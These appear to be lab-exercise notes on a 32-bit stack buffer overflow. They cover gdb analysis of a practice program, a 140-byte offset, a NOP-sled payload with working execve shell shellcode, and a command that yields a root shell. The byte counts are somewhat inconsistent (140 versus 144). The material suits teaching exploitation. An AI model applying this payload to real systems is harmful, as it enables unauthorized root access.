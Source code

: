 
> [!exercise]+ Exercise - Injecting Shellcode
>
> To begin exploiting the buffer overflow vulnerability and injecting shellcode, we first need to analyze the stack and identify the location of the return address that we want to overwrite.
>
> Using gdb, we set a breakpoint at the end of the vulnerable `func()` function and run the program with a pattern of 128 "A"s as input. This will allow us to examine the stack and determine the offset between the start of our input and the return address.
>
> After hitting the breakpoint, we use the `x/40x $esp` command to display the stack contents:
>
> ```
> (gdb) x/40x $esp
> 0xffffd1f0: 0x41414141  0x41414141  0x41414141  0x41414141
> ...
> 0xffffd270: 0x41414141  0x41414141  0x41414141  0x41414141
> 0xffffd280: 0xf7fad620  0x00000000  0xffffd2b8  0x080491b1
> ...
> ```
>
> Here, we can see the buffer filled with our "A"s (0x41 in hex) starting at address `0xffffd1f0`.
>
> Next, we use the `info frame` command to find the location of the saved return address:
>
> ```
> (gdb) info frame
> Stack level 0, frame at 0xffffd280:
>  eip = 0x401152 in func (simple.c:7); saved eip = 0x8049d21
>  ...
>  Saved registers:
>   ebp at 0xffffd278, eip at 0xffffd27c
> ```
>
> The output reveals that the saved return address is located at `0xffffd27c` and we need to overwrite `0x8049d21`
>
> With this information, we can calculate the exact offset between the start of our buffer and the return address:
>
> ```
> 0xffffd27c - 0xffffd1f0 = 140 bytes
> ```
>
> This means we need to send a payload of 140 bytes, where the last 4 bytes will overwrite the return address.

> [!exercise]+ Constructing the Malicious Payload
>
> Now that we know the offset to the return address, we can construct our malicious payload to inject shellcode and control the program's execution flow.
>
> The payload will consist of the following components:
>
> 1. [[NOP]] sled (landing pad): A sequence of NOP instructions (`\x90`) that acts as a safety net for our shellcode. It provides a large area of harmless instructions, increasing the chances of our shellcode being executed successfully even if the return address is slightly off.
>
> 2. Shellcode: The actual malicious code that we want to execute. In this example, we'll use a 34-byte shellcode that spawns a shell with root privileges.
>
> 3. Filler: Additional padding to ensure our payload reaches the desired length of 140 bytes.
>
> 4. Return address: The address we want to overwrite the saved return address with. It should point somewhere within our NOP sled.
>
> Here's how we construct the payload:
>
> ```python
> payload = "\x90"*80 + shellcode + "A"*26 + "\xfc\xd1\xff\xff"
> ```
>
> - We start with 80 bytes of NOP sled (`\x90`).
> - We append our 34-byte shellcode.
> - We add 26 bytes of filler (in this case, "A"s) to pad the payload to the desired length.
> - Finally, we include the return address (`\xfc\xd1\xff\xff`) in little-endian format, which points to somewhere within our NOP sled.
>
> The total length of our payload is 80 + 34 + 26 + 4 = 144 bytes, which matches the offset we calculated earlier (140 bytes) plus the size of the return address itself (4 bytes).

> [!exercise]+ Executing the Exploit and Gaining Root Access
>
> With our malicious payload constructed, we can now execute the exploit and gain unauthorized root access to the system.
>
> We run the vulnerable program with our payload as the command-line argument:
>
> ```
> /home/a1112407/ws5/simple $(python -c 'print "\x90"*80 +"\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80" + "A"*26 + "\xfc\xd1\xff\xff"')
> ```
>
> Here's what happens when the exploit is executed:
>
> 1. The program copies our payload into the vulnerable buffer using `strcpy()`.
>
> 2. The NOP sled, shellcode, and filler are written to the stack, overflowing the buffer.
>
> 3. The return address is overwritten with the address we specified (`\xfc\xd1\xff\xff`), which points somewhere within our NOP sled.
>
> 4. When the `func()` function returns, instead of returning to the original caller, it jumps to the address we specified in the NOP sled.
>
> 5. The execution continues through the NOP sled until it reaches our shellcode.
>
> 6. The shellcode is executed, spawning a shell with root privileges.
>
> We can confirm that we have successfully gained root access by running the `whoami` command in the spawned shell:
>
> ```
> # whoami
> root
> ```
>
> This demonstrates the power of exploiting buffer overflow vulnerabilities to inject shellcode and gain unauthorized control over a system.
